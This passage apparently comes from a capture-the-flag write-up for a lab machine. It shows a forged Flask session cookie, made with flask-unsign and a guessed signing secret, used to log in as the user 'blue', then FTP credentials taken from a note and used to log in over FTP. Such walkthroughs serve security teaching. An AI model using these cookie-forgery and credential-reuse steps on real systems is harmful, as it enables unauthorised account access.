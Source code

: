 It returned one valid username, blue (just like I found by crafting cookies). I’ll use `flask-unsign` to make a cookie:

```

oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkRUJg.-0B60ZY6aQyHOSoCxBnWGOx-Rbw

```

#### Site Access / Enumeration

Regardless of which way I got a cookie for blue, replacing the current cookie in Firefox dev tools and then reloading `/dashboard` shows I’m now logged in as blue:

![image-20220330124752022](https://0xdfimages.gitlab.io/img/image-20220330124752022.png)

There’s also “Import Notes” and “Export Notes” buttons. I’ll come back to these in a bit.

### FTP Access as blue

Logged in as blue, clicking to edit the only note on the dashboard shows a to do list:

![image-20220330124908270](https://0xdfimages.gitlab.io/img/image-20220330124908270.png)

It’s not clear what “password note” blue is talking about, or what password. Looking at the “Notes” link a the top, there are two notes:

![image-20220330124939388](https://0xdfimages.gitlab.io/img/image-20220330124939388.png)

I’ve already looked at “Before the weekend”. The other one is from the Noter team:

![image-20220330125011092](https://0xdfimages.gitlab.io/img/image-20220330125011092.png)

The note is from ftp\_admin, and it has creds for FTP, “blue@Noter!”.

The creds work connect to FTP:

```

oxdf@hacky$ ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:oxdf): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

### FTP Access as ftp\_admin
